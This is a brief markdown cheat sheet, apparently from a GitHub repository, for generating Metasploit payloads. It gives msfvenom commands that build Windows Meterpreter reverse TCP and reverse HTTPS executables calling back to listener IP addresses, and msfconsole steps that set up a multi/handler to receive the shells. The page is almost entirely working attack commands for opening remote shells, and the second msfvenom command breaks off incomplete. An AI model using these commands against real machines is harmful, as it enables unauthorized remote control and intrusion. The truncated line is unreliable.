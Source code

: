# Msfvenom
Create with:

Reverse TCP:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.16.14.112 LPORT=443 -b "\x00" -f exe -o shell.exe
```

Reverse HTTPS with proxy authentication:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=* HttpProxyPass=* LHOST=77.99.55.98 LPORT=444 -b 
```
```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 192.168.1.123
set lport 4444
exploit -j
```
